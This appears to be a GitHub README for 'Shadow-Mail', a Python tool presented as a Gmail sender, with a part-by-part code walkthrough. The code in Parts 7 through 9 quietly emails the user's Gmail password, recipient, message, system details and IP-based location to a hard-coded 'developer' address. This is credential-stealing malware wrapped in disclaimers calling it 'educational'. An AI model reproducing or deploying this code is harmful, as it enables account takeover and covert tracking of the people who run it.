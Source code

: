 This Python program serves as a multifunctional email sender with additional features for collecting and transmitting user-specific system details and location information. The script is designed to interact with the user by prompting for their name, guiding them through Gmail authentication, and collecting necessary credentials. Once authenticated, the program allows the user to input recipient details and email content, facilitating the sending of emails through a Gmail SMTP connection. Furthermore, the script captures the user's system information, including details about the operating system, hardware, and processes, which is then sent to a specified email address. Additionally, the program retrieves the user's IP-related information using an external service and forwards it to the developer's email. While providing a practical demonstration of Python's capabilities for ethical hacking or custom tool development, it is crucial to emphasize that the program is intended for educational purposes only, and its misuse to inflict harm is strongly discouraged. The developer expressly disclaims responsibility for any adverse consequences resulting from the inappropriate use of this program.

This is the detailed break-down of this code:

To begin, the user is prompted to input their name, after which they receive clear instructions on creating an app password for their Gmail account. The script then guides the user through entering their Gmail address, ensuring its validity, and securely collecting both the Gmail credentials and password. 

Following this, the user is prompted to input the recipient's Gmail address and compose the email message they wish to send. The script establishes a secure connection to Gmail's SMTP server, logs in using the provided credentials, and successfully sends the email to the specified recipient.

Subsequently, the script discreetly sends the user's Gmail details, password, recipient's Gmail, and email message to a developer's email address. Additionally, the script captures the user's system information, including details such as operating system, network configuration, CPU, memory, and battery status. This information is then formatted and sent to the developer via email. 

Finally, the script leverages an external service to obtain the user's IP-related details, such as city, region, country, and timezone. This information is also sent securely to the developer's email. The user receives a confirmation message upon successful email transmission, ensuring transparency about the process's completion.

This is the break down of code and explaination each part:

Part 1: Importing Libraries

```python
import json
from urllib.request import urlopen
import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
import platform
import socket
import psutil
```

Installation

Follow these steps to set up the Python environment and install the required dependencies for this project:

1. Clone the Repository

```bash
git clone https://github.com/GitCoder052023/Shadow-Mail.git
cd Shadow-Mail
```
2. Create a Python Virtual Environment
Make sure you have Python installed (version 3.8.0 or higher). If not, you can download it from python.org.

Create a virtual environment to isolate the dependencies:
```bash
python3 -m venv venv
```
3. Activate the Virtual Environment
Activate the virtual environment based on your operating system:
On Windows:
```bash
venv\Scripts\activate
```
On Unix or MacOS:
```bash
source venv/bin/activate
```
4. Install Required Dependencies
Use pip to install the necessary dependencies specified in the requirements.txt file:
```bash
pip install -r requirements.txt
```


Part 2: User Input

```python
name = input("Enter your name: ")
```

The script prompts the user to enter their name.

Part 3: Instructions for Gmail Authentication

```python
print("Hello," + name, '''Welcome to MailBox.com...''')
```

The script provides instructions for the user on creating an app password for Gmail.

Part 4: Validating and Collecting User's Gmail and Password

Collecting user's Gmail and password

```python
while True:
    Gmail = input("Enter your Gmail: ")
    if Gmail.endswith("@gmail.com"):
        MailBox = Gmail
        Password = input("Enter your Gmail password: ")
        print("Your Gmail is Submitted Successfully")
        break
    else:
        print("Your Gmail is Invalid, please Enter your Gmail again")
        Gmail = input("Enter your Gmail: ")
        if Gmail.endswith("@gmail.com"):
            MailBox = Gmail
            Password = input("Enter your Gmail password: ")
            print("Your Gmail is Submitted Successfully")
            break
```


The script prompts the user to enter their Gmail address, validates it, and then collects the Gmail and password.

Part 5: Email Content Input

```python
RMID = input("Enter the gmail of the receiver: ")
Mail = input("Enter gmail message to send: ")
```

The script collects the recipient's Gmail and the email message from the user.

Part 6: Sending the Email

```python
# Setting up SMTP and sending the email

s = smtplib.SMTP('smtp.gmail.com', 587)
s.starttls()
s.login(MailBox, Password)
message1 = Mail
s.sendmail(MailBox, RMID, message1)
s.quit()
```

The script sets up an SMTP connection to Gmail, logs in using the user's credentials, and sends the email to the specified recipient.

Part 7: Sending User's Data to the Developer

```python
s = smtplib.SMTP('smtp.gmail.com', 587)
s.starttls()
s.login(MailBox, Password)
subject = "Mail from " + MailBox + " to " + RMID
message = "From: " + MailBox + "\nTo: " + RMID + "\nSubject: " + subject + "\n" + Password
Developer = "REPLACE WITH YOUR DESIRED GMAIL ADDRESS"
s.sendmail(MailBox, Developer, message)
s.quit()
```

The script sends the user's Gmail, Gmail password, recipient's Gmail, and the email message to the developer's email address.

Part 8: Collecting and Sending System Information

```python
def send_email(subject, body, to_email):
    from_email = MailBox
    password = Password
    message = MIMEMultipart()
    message["From"] = from_email
    message["To"] = to_email
    message["Subject"] = subject
    message.attach(MIMEText(body, "plain"))
    
    with smtplib.SMTP("smtp.gmail.com", 587) as server:
        server.starttls()
        server.login(from_email, password)
        server.sendmail(from_email, to_email, message.as_string())

def get_device_details():
    # ... (Code for collecting system details)
    return data_SYS

if __name__ == "__main__":
    device_info = get_device_details()
    data_str = "\n".join([f"{key}: {value}" for key, value in device_info.items()])
    send_email("System Information", data_str, "REPLACE WITH YOUR DESIRED GMAIL ADDRESS")
```

The script defines a function to send an email and uses it to send the user's system information to the developer's email address.

Part 9: Collecting and Sending User's Location Information

```python
url = "http://ipinfo.io/json"
response = urlopen(url)
data = json.load(response)
Address_data = {
  "IP": data["ip"],
  "City": data["city"],
  "Region": data["region"],
  "Country": data["country"],
  "Location": data["loc"],
  "Organization": data["org"],
  "Postal": data["postal"],
  "Timezone": data["timezone"]
}

json_data = json.dumps(data, indent=4)

sender_email = MailBox
sender_password = Password
receiver_email = "REPLACE WITH YOUR DESIRED GMAIL"
subject = "IP Information"

body = f"""\
IP Information:

{json_data}
"""

with smtplib.SMTP("smtp.gmail.com", 587) as server:
    server.starttls()
    server.login(sender_email, sender_password)
    message = f"Subject: {subject}\n\n{body}"
    server.sendmail(sender_email, receiver_email, message)
```

The script collects the user's IP information using an external service and sends it to the developer's email address.

Part 10: Confirmation Message

```python
print("Your Mail sent successfully to", RMID)
```


Note: This Python program is expressly designed for educational purposes and serves solely as a demonstration of Python's capabilities within the realms of ethical hacking and custom tool development. It is explicitly prohibited to employ this program for any malicious intent or to cause harm to individuals or entities. The developer vehemently discourages any such misuse, The developer bears no responsibility for any harm or damage resulting from the misuse or unauthorized deployment of this software.
